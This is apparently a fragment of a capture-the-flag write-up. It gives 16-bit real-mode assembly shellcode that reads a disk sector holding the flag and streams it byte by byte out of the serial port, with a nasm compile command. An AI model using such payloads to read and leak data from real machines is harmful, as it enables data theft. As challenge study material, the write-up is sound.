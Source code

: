 
## final shellcode

```asm
[bits 16]

start:
    mov ah, 0x2                ; read sectors from drive
    nop
    mov al, 1                  ; sectors to read
    nop
    mov ch, 0                  ; cylinder idx
    nop
    mov dh, 0                  ; head idx
    nop
    mov cl, 2                  ; sector idx
    nop
    mov dl, 0x80               ; disk idx
    nop
    mov bx, 0x7e00             ; target pointer
    int 0x13                   ; interrupt
    mov dx, 0x3f8              ; serial out
    mov si, bx                 ; source buffer (start of flag)
loop:
    lodsb                      ; load byte from si into al, advance si
    out dx, al                 ; send al to serial out
    jmp loop                   ; repeat
    nop                        ; padding
```

> credit to my teammate @jason

compile it with

`nasm shellcode.asm -o shellcode.o`

yep! all the first bytes are different!!!!!
